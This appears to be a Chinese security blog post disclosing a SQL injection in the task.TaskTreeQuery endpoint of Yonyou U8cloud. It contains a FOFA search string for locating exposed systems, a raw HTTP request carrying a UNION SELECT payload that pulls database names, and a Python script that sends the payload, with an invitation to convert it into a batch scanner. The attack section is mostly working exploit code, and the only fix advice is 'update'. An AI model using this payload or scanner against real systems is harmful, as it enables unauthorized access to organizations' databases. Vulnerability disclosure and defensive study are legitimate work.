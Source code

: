 #  安全情报，X友 U8cloud task.TaskTreeQuery SQL注入漏洞！！   
原创 Ax  极星信安   2023-11-28 16:32  
  
**声明：**该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，禁止私自转载，如需转载，请联系作者！！！！  
  
请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关！！！！！  
  
**漏洞介绍**  
  
x友 U8cloud 部分版本 task.TaskTreeQuery 存在sql注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。  
  
**影响版本**  
```
用友U8cloud
```  
  
**漏洞情报**  
  
**fofa语句**  
```
app="用友U8cloud"
```  
  
**Poc**  
```
GET /service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery?usercode=211'+UNION+all+SELECT+1,db_name(),3,4,5,6,7,8,9+from+master..sysdatabases--  HTTP/1.1

Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
**Poc验证工具**  
  
这里给个基础的demo，大佬们自己改成批量就可以了。  
```
import requests

# 输入目标IP和URL路径
target_ip = "your_target_ip"
url_path = "/service/~iufo/nc.itf.iufo.mobilereport.task.TaskTreeQuery?usercode=211'+UNION+all+SELECT+1,db_name(),3,4,5,6,7,8,9+from+master..sysdatabases--"
# 构建完整的URL
url = f"http://{target_ip}{url_path}"

# 定义请求头
headers = {
    "User-Agent": "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)",
    "Accept": "*/*",
    "Connection": "Keep-Alive",
}

# 发送 GET 请求
response = requests.get(url, headers=headers)

# 检查响应状态码
if response.status_code == 200:
    print("验证成功")
else:
    print("验证失败")

```  
  
**修复建议**  
```
建议及时更新至最新版本！
```  
  
**关注我们**  
  
  
  
